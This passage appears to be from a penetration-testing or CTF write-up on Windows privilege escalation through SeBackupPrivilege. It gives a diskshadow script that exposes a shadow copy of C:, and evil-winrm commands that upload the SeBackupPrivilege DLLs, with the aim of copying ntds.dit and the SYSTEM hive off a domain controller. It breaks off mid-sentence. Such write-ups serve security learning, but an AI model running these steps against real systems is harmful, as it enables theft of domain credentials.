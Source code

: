 ```powershell
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
[..]

```

>SeBackupPrivilege privilege, the user can bypass file and directory, registry, and other persistent object permissions for the purposes of backing up the system.  
This privilege causes the system to grant all read access control to any file, regardless of the [_access control list_](https://docs.microsoft.com/en-us/windows/win32/secgloss/a-gly#_security_access_control_list_gly) (ACL) specified for the file. Any access request other than read is still evaluated with the ACL. The following access rights are granted if this privilege is held:  
READ\_CONTROL  
ACCESS\_SYSTEM\_SECURITY  
FILE\_GENERIC\_READ  
FILE\_TRAVERSE

and now we define the steps to gain access as administrator, firtsly add script below and given name script.txt, and then we can take advantages of `diskshadow` binary.

```powershell
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  
 
create  
  
expose %mydrive% w:  
end backup  
```

execute `diskshadow /s script.txt` command will start backup from C drive into Z drive, after that you need to clone [this repo](https://github.com/giuliano108/SeBackupPrivilege) and upload .dll files into target.

```powershell
#evil-winrm
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll

# import module cmdlets command
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
```

after the backup process is complete we need to copy ntds.dit from Z drive into C:\temp\ folder, and download `ntds.dit` and `system` into our host with following command: 
